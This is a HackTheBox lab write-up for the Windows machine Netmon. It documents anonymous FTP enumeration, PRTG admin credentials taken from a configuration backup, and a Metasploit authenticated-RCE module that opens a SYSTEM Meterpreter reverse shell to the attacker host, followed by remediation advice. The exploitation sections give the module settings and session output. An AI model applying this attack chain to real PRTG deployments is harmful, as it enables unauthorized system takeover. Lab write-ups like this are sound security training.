# HackTheBox — Netmon Writeup

**Difficulty:** Easy
**OS:** Windows
**Target IP:** `10.129.230.176`
**Attacker IP:** `10.10.14.7`

## Summary

Netmon is an Easy-rated Windows machine running a PRTG Network Monitor
instance. The box is compromised by abusing an anonymous FTP account to
browse the filesystem, locating the `user.txt` flag on the Public desktop,
and retrieving an old PRTG configuration backup file. That backup discloses
the `prtgadmin` administrator credentials, which are then used with a
Metasploit authenticated RCE module against PRTG to obtain a SYSTEM-level
Meterpreter session and capture the `root.txt` flag.

| Step | Technique |
|---|---|
| Recon | Nmap service/version scan |
| Initial access | Anonymous FTP enumeration |
| Credential access | PRTG configuration backup file disclosure |
| Exploitation | `exploit/windows/http/prtg_authenticated_rce` (Metasploit) |
| Result | SYSTEM shell, both flags captured |

---

## 1. Reconnaissance

### 1.1 Nmap Scan

An initial service/version scan was run against the target:

```
nmap -sCV -T5 -v 10.129.230.176
```



The scan revealed the following relevant open ports and services:



| Port | State | Service | Version / Notes |
|---|---|---|---|
| 21/tcp | open | ftp | Microsoft ftpd — **anonymous login allowed** |
| 80/tcp | open | http | Indy httpd 18.1.37.13946 (**Paessler PRTG** bandwidth monitor) |
| 135/tcp | open | msrpc | Microsoft Windows RPC |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn |
| 445/tcp | open | microsoft-ds | Windows Server 2008 R2 – 2012 |
| 5985/tcp | open | http | Microsoft HTTPAPI 2.0 (WinRM) |

Key findings from the NSE scripts:

- `ftp-anon`: **Anonymous FTP login allowed (FTP code 230)**
- `http-title`: *Welcome | PRTG Network Monitor (NETMON)* — confirms the
  web service is a PRTG instance.

With anonymous FTP access and a web-facing PRTG install identified, both
services were enumerated further.

---

## 2. Enumeration via Anonymous FTP

### 2.1 Connecting and Capturing `user.txt`

The FTP service accepted an anonymous login:

```
ftp 10.129.230.176
Name: anonymous
Password: (blank / email)
```



Browsing through the directory structure (`Users` → `Public` → `Desktop`)
revealed the first flag:

```
ftp> cd Users
ftp> cd Public
ftp> cd Desktop
ftp> ls
...
10-25-26  10:39AM          34 user.txt
ftp> get user.txt
```



`user.txt` was downloaded successfully, completing the first objective of
the engagement.

### 2.2 Locating the PRTG Installation Directory

Continuing the FTP enumeration into `C:\ProgramData\Paessler\PRTG Network
Monitor\`, the PRTG application and configuration directories were
discovered, including a **Configuration Auto-Backups** folder:



Inside the backups folder, several historical configuration files were
present:

```
PRTG Configuration.dat
PRTG Configuration.old
PRTG Configuration.old.bak
PRTG Graph Data Cache.dat
```

The file `PRTG Configuration.old.bak` was downloaded for offline analysis:

```
ftp> get "PRTG Configuration.old.bak"
```



---

## 3. Credential Access

### 3.1 Extracting Credentials from the Configuration Backup

The downloaded `PRTG Configuration.old.bak` is an XML file used internally
by PRTG to store application settings, including authentication data.
Searching through the file revealed a stored administrator password:

```xml
<dbpassword>
    <!-- User: prtgadmin -->
    PrTg@dmin2018
</dbpassword>
```


This confirmed that the backup historically stored PRTG's built-in
administrator credentials in cleartext within its configuration backups —
a known weakness of PRTG Network Monitor. Because PRTG periodically
rotates and re-saves this value, the current in-use password differs
slightly between backup generations (`PrTg@dmin2018` → `PrTg@dmin2019`),
which was confirmed later during exploitation.

### 3.2 Confirming the PRTG Web Interface

The PRTG web dashboard was browsed to confirm the application version and
general footprint before exploitation:



- Application: **PRTG Network Monitor**
- Server header: `PRTG/18.1.37.13946`
- Logged in context: *PRTG System Administrator*

---

## 4. Exploitation

PRTG Network Monitor versions around 18.x are vulnerable to an
**authenticated Remote Code Execution** issue (notification/execution
abuse via the administrator account), exploitable through the Metasploit
module `exploit/windows/http/prtg_authenticated_rce`.

### 4.1 Locating and Configuring the Module

```
msf6 > search exploit PRTG Network Monitor
```



The matching module was selected:

```
use exploit/windows/http/prtg_authenticated_rce
set RHOSTS 10.129.230.176
set LHOST  10.10.14.7
set LPORT  443
set ADMIN_USERNAME prtgadmin
set ADMIN_PASSWORD PrTg@dmin2019
```

### 4.2 Running the Exploit

```
run
```



Exploit output:

```
[*] Started reverse TCP handler on 10.10.14.7:443
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2018)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Sending stage (199238 bytes) to 10.129.230.176
[*] Meterpreter session opened (10.10.14.7:443 -> 10.129.230.176:50253)
```

The exploit abuses PRTG's "Execute Program" notification feature:
authenticated as `prtgadmin`, it creates a malicious notification that
runs an arbitrary command/payload, triggers it, and immediately removes
the notification to minimize traces — resulting in code execution in the
context of the PRTG Core Server service.

---

## 5. Post-Exploitation / Privilege Escalation

Because the PRTG Core Server service runs with **SYSTEM** privileges,
no additional privilege escalation step was required — code execution
through PRTG grants SYSTEM directly.

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > sysinfo
Computer        : NETMON
OS              : Windows Server 2016 (10.0 Build 14393)
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
```



A standard `cmd.exe` shell was then dropped from Meterpreter to navigate
the filesystem manually:

```
meterpreter > shell
C:\Windows\system32> cd C:\Users\Administrator\Desktop
```

### 5.1 Capturing `root.txt`

Browsing to the Administrator's Desktop confirmed the presence of the
root flag:

```
C:\Users\Administrator\Desktop>dir
...
10/25/2026  10:39 AM            34 root.txt

C:\Users\Administrator\Desktop>type root.txt
```



With `type root.txt` executed as `NT AUTHORITY\SYSTEM`, the root flag was
successfully retrieved, completing the machine.

---

## 6. Flags

| Flag | Location | Method |
|---|---|---|
| `user.txt` | `C:\Users\Public\Desktop\user.txt` | Anonymous FTP download |
| `root.txt` | `C:\Users\Administrator\Desktop\root.txt` | Meterpreter SYSTEM shell |

*(Flag values are intentionally omitted from this report.)*

---

## 7. Attack Chain Overview

```
Nmap scan
   │
   ├─► FTP (21) anonymous login allowed
   │       │
   │       ├─► Users\Public\Desktop\user.txt   →  USER FLAG
   │       │
   │       └─► ProgramData\Paessler\PRTG Network Monitor\
   │               Configuration Auto-Backups\
   │               PRTG Configuration.old.bak
   │                       │
   │                       └─► prtgadmin credentials disclosed
   │
   └─► HTTP (80) PRTG Network Monitor web app
           │
           └─► Metasploit: exploit/windows/http/prtg_authenticated_rce
                   │
                   └─► Meterpreter session (NT AUTHORITY\SYSTEM)
                           │
                           └─► Administrator\Desktop\root.txt  →  ROOT FLAG
```

---

## 8. Remediation Recommendations

1. **Disable anonymous FTP access.** Anonymous login should never be
   enabled on a production FTP service, especially one exposing
   application directories such as `ProgramData`.
2. **Restrict filesystem permissions** on PRTG's installation and backup
   directories so that configuration backups are not readable by
   low-privileged or unauthenticated accounts.
3. **Do not store credentials in cleartext** inside configuration backup
   files. Sensitive values should be encrypted at rest and excluded from
   automatic backup exports where possible.
4. **Patch / upgrade PRTG Network Monitor** to a version that addresses
   the authenticated RCE issue exploited by
   `exploit/windows/http/prtg_authenticated_rce`, and restrict
   administrative account privileges.
5. **Run monitoring services with least privilege.** The PRTG Core Server
   service should not execute with SYSTEM-level privileges if a lower
   privileged service account can be used instead.
6. **Rotate default/administrative credentials regularly** and avoid
   predictable password patterns (e.g. incrementing a year value).

---

## 9. Tools Used

- `nmap` — service and version scanning
- Native FTP CLI client — anonymous enumeration and file retrieval
- Metasploit Framework (`msfconsole`) — exploitation and Meterpreter
  post-exploitation
